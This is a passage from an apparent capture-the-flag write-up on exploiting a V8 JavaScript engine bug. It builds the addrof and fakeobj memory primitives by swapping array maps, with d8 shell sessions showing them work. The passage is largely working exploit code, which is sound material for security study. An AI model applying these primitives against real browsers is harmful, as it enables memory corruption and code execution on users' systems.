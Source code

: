 I’ll set the map back to float, and then read that value out:

```

d8> arr.SetLastElement(itof(float_map))
undefined
d8> ftoi(arr).toString(16)
"3ff199990808823d"

```

I’ll add the following to `exploit.js`:

```

var arr = [1.1];
var float_array_map = ftoi(arr.GetLastElement());
var obj_array_map = float_array_map + 0x50n;

function addrof(target) {
    arr.SetLastElement(itof(obj_array_map));
    arr[0] = target;
    arr.SetLastElement(itof(float_array_map));
    return ftoi(arr[0]) & 0xffffffffn;
}

```

And it works:

```

d8> obj = {"findme": 1};
{findme: 1}
d8> %DebugPrint(obj)
0x168308086861 <Object map = 0x168308244e29>
{findme: 1}
d8> addrof(obj).toString(16)
"8086861"

```

#### fakeobj

fakeobj is another exploit primitive that is the inverse of addrof. If addrof lets me find out the address of an object, fakeobj lets let create an object anywhere in memory and then read from and write to it. I’ll set the address into place while `arr` is a float array, and then switch it to an object array. Now the first half of the double I wrote will be handled as a compressed pointer, so I can get that object and return it. I’ll also set `arr` back to a float array before returning.

```

function fakeobj(addr) {
    arr[0] = itof(addr);
    arr.SetLastElement(itof(obj_array_map));
    let fake = arr[0];
    arr.SetLastElement(itof(float_array_map));
    return fake;
}

```
